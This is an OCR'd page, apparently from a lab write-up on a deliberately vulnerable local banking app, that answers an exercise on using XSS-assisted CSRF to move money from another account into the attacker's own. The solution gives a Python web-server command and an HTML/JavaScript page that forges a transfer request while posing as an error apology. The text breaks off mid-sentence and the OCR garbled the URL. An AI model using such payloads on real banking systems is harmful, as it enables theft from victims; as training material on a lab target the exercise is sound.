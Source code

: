 
\_\_Assume that you are a valid customer of your bank. Show how you can use XSRF to transfer money from another account to your account.\_\_

\_\_Solution:\_\_ 

\- In this attack, XSS vulnerability on the Account Details page is leveraged to perform CSRF.

\- Run the Python HTTP server, where \`error.html\` is located.

  

 \`\`\`bash

  python -m SimpleHTTPServer 81

 \`\`\`

  

 \`\`\`html

 <html>

 <body>

  <script>

  const queryString \= window.location.search;

  console.log(queryString);

  const urlParams \= new URLSearchParams(queryString);

  const accountNo \= urlParams.get('x');

  

  function getURL() {

  

  const url \= "http://localhost/htdocs/index.php?page=htbtransfer&srcacc=" + 

  accountNo+ "&dstbank=41131337&dstacc=14314312&amount\=

  1.95&remark\=&htbtransfer\=Transfer";

  http://localhost/htdocs/index.php?page

  \=htbtransfer&srcacc\=173105291&dstbank

  \=41131337&dstacc\=11111111&amount\=1&

  remark\=&htbtransfer\=Transfer 

  window.open(url, "\_blank");

  }

  </script>

  <html>

  <body>

  We are very sorry for the inconvenience, you had an 

